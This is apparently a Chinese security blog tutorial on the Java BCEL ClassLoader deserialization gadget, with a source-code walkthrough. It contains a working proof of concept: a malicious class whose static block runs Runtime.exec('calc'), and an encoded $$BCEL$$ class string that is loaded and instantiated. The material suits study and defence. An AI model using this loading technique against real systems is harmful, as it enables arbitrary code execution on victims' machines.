

**BCEL（Byte Code Engineering Library）** 是 Apache Commons 旗下的一个 Java 字节码操作库，允许开发者修改、创建和分析 Java 字节码（`.class` 文件）。它主要用于代码生成、字节码分析、安全研究以及 Java 反序列化攻击等场景。

从 `JDK 6` 开始，Oracle 直接将 BCEL 代码修改后集成到了 JDK 内部，放在了 `com.sun.org.apache.bcel.internal.*` 命名空间中，并打包进 `rt.jar`。这使得 JDK 内部组件能够使用 BCEL，而无需外部依赖。例如，JDK 的 XML 解析组件（如 Xalan）就使用了 BCEL 来处理字节码转换。

JDK 8u251 之后，Oracle 移除了 `com.sun.org.apache.bcel.internal.util.ClassLoader` 类，导致基于 BCEL 的反序列化攻击链失效。所以`BCEL`这条链的调试环境只需要我们使用JDK8u251以前的JDK版本(不包括JDK8u251)即可，无须任何其他依赖。

## 前置知识

如果你对ClassLoader的概念还不清楚，可以先阅读我的这篇文章哦：[详解JavaClassLoader](../详解%20JAVAClassLoader/main.md)

其实说`BCEL`是反序列化链，感觉有点勉强，毕竟通过自定义的ClassLoader来加载`.class`的过程也不像是反序列化。不过广义上的反序列化就是把类对象转换成字符串或者是字节码的可存储形式，hhhhhh，这么看还是没毛病的。

在我看完`BCEL`后，我认为这个库在设计之初并没有考虑到这个加载器的安全问题（可能当时还没有反序列化漏洞的概念），所以可以直接加载任意类，当这个类中包含了恶意代码，那恶意代码也会执行。

了解完ClassLoader的内容后，其实直接运行POC看效果就行了，可以发现这个POC是非常简单的。

## POC

首先是创建一个恶意类，该类的static代码块中包含了要执行的代码。

```java
package bcel;
import java.io.IOException;
public class EvilClass {
    static {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException ignore) { }
    }
}
```

然后开始使用BCEL对该Class进行加载、执行。

```java
package bcel;

import com.sun.org.apache.bcel.internal.Repository;
import com.sun.org.apache.bcel.internal.classfile.JavaClass;
import com.sun.org.apache.bcel.internal.classfile.Utility;
import com.sun.org.apache.bcel.internal.util.ClassLoader;

public class BCELTest {
    public static void main(String[] args) throws Exception {
        // genBCELClassEncode();
        loadClass();
    }
	
    public static void genBCELClassEncode() throws Exception{
        Class<?> evilClass = Class.forName("bcel.EvilClass");
        JavaClass javaClass = Repository.lookupClass(evilClass);
        String encode = Utility.encode(javaClass.getBytes(), true);
        System.out.println(encode);
    }

    public static void loadClass() throws Exception{
        Class<?> evilClass = new ClassLoader().loadClass("$$BCEL$$" + "$l$8b$I$A$A$A$A$A$A$AeP$cbN$c2$40$U$3dS$w$85ZAA$7c$bfX$89$$$ec$c6$j$c4$N$c1$c4X$l$R$a3$eb$e98$c1$c1$da$9a2$Y$ff$c8$b5$h5$$$fc$A$3f$cax$3b$S$d4$d8d$ee$e9$3dw$ce9$bd$fd$f8$7c$7b$H$b0$8b$ba$L$H$b3$$j$98$x$60$3e$c3$F$H$8b$O$96$i$y3$e4$5b$wVz$8f$n$d7$d8$ba$60$b0$db$c9$95d$u$H$w$96$c7$c3$dbP$a6$e7$3c$8c$88$a9$E$89$e0$d1$FOU$d6$8fH$5b_$ab$B$c3t$Q$K$Z$f9$9d$7b$V$b5$p$3e$Y4$Z$K$z$R$8d$8c$a7$ba$9a$8b$9b$p$7egD$U$cd$e0v$93a$w$e4$be$caLJc$ddN$9f$dfs$P$F$U$j$acxX$c5$gEP$aa$f0$b0$8e$N$86j6$f7U$e2$l$9ct$k$84$bc$d3$w$89I$ff7$9c$3e$c7$5c$8bx$dc$f3O$c2$be$U$9aa$e6$87$3a$h$c6Z$ddR$ae$db$93z$dc$d4$g$5b$c1$bf$3b$b4$87$z$l$a4$60$d8l$fc$9avu$aa$e2$5e$f3$b7$e04M$84$a4$c5QG$9e$fev$f6X$60$d9$sT$5d$ea$7cBF8$b1$fd$C$f6d$c6$93T$f3$df$q$3c$aa$de$e8$7d$K$r$c2$C$cac$f1$a11$DJ$af$b0$w$b9g$d8$97$8f$b0$P$9f$MW$q$dd$Er$c6$adD$I$TZ$q$X$d7$b8Zt$a6$e98$b0$C$H3$mQ$c5$d0$d5$_$5dI$Y$93$n$C$A$A");
        evilClass.newInstance();
    }
}
```

这个POC中`genBCELClassEncode`是用来生成下边那一串非常奇怪的字符串的，`loadClass`用来把奇怪字符串转换为对应的`Class`，并调用`Class`中的默认构造方法，最终触发`EvilClass`中`static`代码块中的内容。

运行看看效果。


如果运行`genBCELClassEncode`方法，这将会生成我们刚才使用的那个字符串。

同时计算器也会被执行，这是因为`Class.forName`默认会初始化该类，也就是对应着`forName0(className, true, ClassLoader.getClassLoader(caller), caller)`，这段代码，其中`initialize=true`表示要初始化Class，此时`static`代码块就会被执行。




## 代码分析

其实`BCEL`就是自己又在Java基础的ClassLoader中又封装了一层，强化了一些功能，比如可以不指定一个`.class文件`，而是通过解析一个`.class字符串`来还原`Class`对象。

下边的代码分析中`lookupClass`和`Utility.encode`配合起来生成一串奇怪的字符串，这个奇怪的字符串其实是使用了一种特殊的**Base64-like**编码方式来把.class的二进制字节码转换为合法的 Java 标识符。

### lookupClass

这里的`lookupClass`方法来自于`Repository`，然后里边的代码是这么写的：

```java
public abstract class Repository {
    // 这个_repository是static的，所以在初始化时就会调用执行SyntheticRepository.getInstance()
    private static com.sun.org.apache.bcel.internal.util.Repository _repository =
    SyntheticRepository.getInstance();

    public static JavaClass lookupClass(Class clazz) {
        try {
            // 此时_repository就是调用的SyntheticRepository的loadClass方法
          return _repository.loadClass(clazz);
        } catch(ClassNotFoundException ex) { return null; }
    }
}
public class SyntheticRepository implements Repository {
    // _instances是一个static的HashMap
    private static HashMap _instances = new HashMap(); // CLASSPATH X REPOSITORY
    
    // 调用这个getInstance方法
  	public static SyntheticRepository getInstance() {
        // 默认情况下ClassPath.SYSTEM_CLASS_PATH是一个空ClassPath
    	return getInstance(ClassPath.SYSTEM_CLASS_PATH);
  	}
    // 单例模式的经典getInstance方法
    public static SyntheticRepository getInstance(ClassPath classPath) {
        // 非常经典的单例模式写法，从_instances中获取实例
    	SyntheticRepository rep = (SyntheticRepository)_instances.get(classPath);
        if(rep == null) {
            // 如果没有就new一个SyntheticRepository，然后放到_instances中
          rep = new SyntheticRepository(classPath);
          _instances.put(classPath, rep);
        }
    	return rep;
  	}
}
```

然后来到`SyntheticRepository.loadClass`方法中，看一下对应的逻辑。

```java
// 0. SyntheticRepository.loadClass中调用了ClassPath，所以这里先看一下ClassPath
public class ClassPath implements Serializable {
      private PathEntry[] paths;
    // 1.先调用这个，比如becl.EvilClass，这里会变成becl.EvilClass.class，也就是编译后的.class文件
    public InputStream getInputStream(String name) throws IOException {
    	return getInputStream(name, ".class");
    }
    // 2. 通过becl.EvilClass.class找到对应的class文件，调用getClassFile解析这个文件
    public InputStream getInputStream(String name, String suffix) throws IOException {
        InputStream is = null;
        try {
            is = getClass().getClassLoader().getResourceAsStream(name + suffix);
        } catch(Exception e) { }
        if(is != null)
        	return is;
        // 从ClassFile中获取文件流
        return getClassFile(name, suffix).getInputStream();
    }
    // 3.读取becl.EvilClass.class这个文件，返回ClassFile对象，其实就是对这个字节码文件封装了一层File而已
    public ClassFile getClassFile(String name, String suffix) throws IOException {
        for(int i=0; i < paths.length; i++) {
            ClassFile cf;
            if((cf = paths[i].getClassFile(name, suffix)) != null)
            return cf;
        }
    	throw new IOException("Couldn't find: " + name + suffix);
    }
}

public class SyntheticRepository implements Repository {
    private ClassPath _path = null;
    private HashMap   _loadedClasses = new HashMap(); // CLASSNAME X JAVACLASS
    private SyntheticRepository(ClassPath path) {
    	_path = path;
    }
	public JavaClass loadClass(String className) throws ClassNotFoundException {
        if(className == null || className.equals("")) {
          throw new IllegalArgumentException("Invalid class name " + className);
        }
		// 如果类名是类似于 org/apache/commons/util，会被替换为org.apache.commons.util
        className = className.replace('/', '.'); // Just in case, canonical form

        try {
            // 这里的getInputStream(className)就调用到了ClassPath的InputStream，其实就是获取到了.class文件的二进制流
      		return loadClass(_path.getInputStream(className), className);
        } catch(IOException e) {
      		throw new ClassNotFoundException("Exception while looking for class " +
                                           className + ": " + e.toString());
        }
    }
    private JavaClass loadClass(InputStream is, String className) throws ClassNotFoundException {
        // 通过className拿到一个JavaClass对象
        JavaClass clazz = findClass(className);
        if(clazz != null) {
            // 如果JavaClass不为空，则直接返回，看起来这个像是缓存
          return clazz;
        }
        try {
            if(is != null) {
                // 获取一个ClassParser解析器
                ClassParser parser = new ClassParser(is, className);
                // 调用parse获取JavaClass对象
                clazz = parser.parse();
                // 缓存JavaClass对象
                storeClass(clazz);
            	return clazz;
            }
        } catch(IOException e) {
          throw new ClassNotFoundException("Exception while looking for class " +
                                           className + ": " + e.toString());
        }
        throw new ClassNotFoundException("SyntheticRepository could not load " +
                                         className);
        }
}
```

那看起来重点就是`ClassParser`以及对应的`parse`方法了，咱们分别来看一下。

首先是`ClassParser(InputStream file, String file_name)`，这里的逻辑就是

1. 判断`class`是不是zip类型的，如果是的话则`is_zip=true`设置ZIP标志位
2. 创建一个`DataInputStream`流


然后看一下`parse`方法。


这里边的代码其实就是识别`.class`文件中的一些协议，依次调用这些读取数据的方法，比如classfile的魔术字、相关版本号、字段、接口等等。我们随便点进去看一个吧，比如`readID()`这个方法。


可以看到就是读取数据，然后校验啥的。在`readInterfaces`方法中的逻辑是，读取`class`中的接口然后把接口的相关数据存到`interfaces`中。

最后把所有读取到的数据都用来new一个JavaClass对象了，这里边包括了所有类中的`方法`、`接口`、`字段`等等......

（吐槽一下：好家伙！这么多参数的构造方法啊，这在国内干开发不得被喷


### Utility.encode

这一句代码`String encode = Utility.encode(javaClass.getBytes(), true);`是上一步得到的`javaClass`编码一下，其中`javaClass.getBytes`是把所有数据转换成一个字节数组，看下代码：


然后会调用`dump(DataOutputStream file)`，代码也是比较简单：

可以看到又把之前读取到的那些数据(字段、接口啥的)都再次写到一个`DataOutputStream`输出流中了。


然后看一下`Utility.encode`这个方法。


这里边的代码大概意思是：

1. 是否符合Java 规定类名、变量名等标识符必须符合一定的格式(`a-z`、`A-Z`、`0-9`、`_`)，并且他不是`$`符号
   1. 这些符合条件的字符都直接写入到输出流中
2. 不符合条件的字符都先写入`$`符号，表示这是一个特殊字符
3. 然后根据字符的不同，将其进行不同的转义，然后再写入到输出流中


然后你就能拿到表示了Class对象的`base64-link`字符串。

### ClassLoader

这里的ClassLoader其实就是`BCEL`对`ClassLoader`又封装了一层。代码如下：

继承了`java.lang.ClassLoader`原生接口，然后加了类似`CreateClass`这样的方法。


### loadClass

这里边的代码非常简单：


截取字符串开头的`$$BCEL$$`，然后把后边的字符串进行base64-link解码。


接下来就是执行`ClassLoader`的正常流程，就是调用`defineClass`从byte[]字节数组中恢复`Class对象`。


当`Class`对象被创建，调用该`Class`对象的`newInstance`方法即可执行类初始化操作，static代码块也会被执行。

我们其中的`Runtime.getRuntime.exec("calc")`也是这时候被执行。

其实不只是`newInstance`方法，任何构造`Class`对象的地方都能执行类初始化操作，所以如果`BCEL`中的`loadClass`方法的参数可控的话，这是非常危险的。


## 总结

BCEL 的 `ClassLoader` 其实本质上只是一个封装 `ClassLoader` 的工具，但由于当时（2000 年代初）并没有明确的反序列化安全意识，它最终成为了一个安全漏洞的诱因。

所以这里的`BCEL`的`POC`其实就是一个正常的`ClassLoader`的用法。